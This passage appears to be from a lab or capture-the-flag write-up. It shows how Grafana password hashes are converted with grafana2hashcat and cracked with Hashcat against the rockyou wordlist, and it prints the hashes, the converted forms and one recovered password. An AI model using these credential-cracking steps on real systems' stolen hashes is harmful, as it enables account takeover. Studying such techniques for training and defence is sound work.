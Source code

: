 ### 6. Convert Grafana Hashes for Hashcat

Clone and run [grafana2hashcat](https://github.com/amandaguglieri/grafana2hashcat):

```bash
git clone https://github.com/amandaguglieri/grafana2hashcat.git
cd grafana2hashcat
```

Prepare input (`hashes.txt`):

```
7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8,YObSoLj55S
dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8,LCBhdtJWjl
```

Run the tool:

```bash
pyenv activate tooling
python grafana2hashcat.py ~/hashes.txt
```

**Output:**

```
[+] Grafana2Hashcat
[+] Reading Grafana hashes from:  /home/lala/borrar/hashes.txt
[+] Done! Read 2 hashes in total.
[+] Converting hashes...
[+] Converting hashes complete.
[*] Outfile was not declared, printing output to stdout instead.

sha256:10000:WU9iU29MajU1Uw==:epGeS76Vz1EE7fNU7i5iNO+sHKH4FCaESiTE32ExMizzcjySFkthcunnP696TCBy+Pg=
sha256:10000:TENCaGR0SldqbA==:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=

[+] Now, you can run Hashcat with the following command, for example:

hashcat -m 10900 hashcat_hashes.txt --wordlist wordlist.txt
```

### 7. Crack the Password with Hashcat

```bash
hashcat -m 10900 hashcat_hashes.txt /usr/share/wordlists/rockyou.txt
```

**Recovered Credential:**

```
sha256:10000:TENCaGR0SldqbA==:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=:beautiful1
```

The admin password could not be cracked.
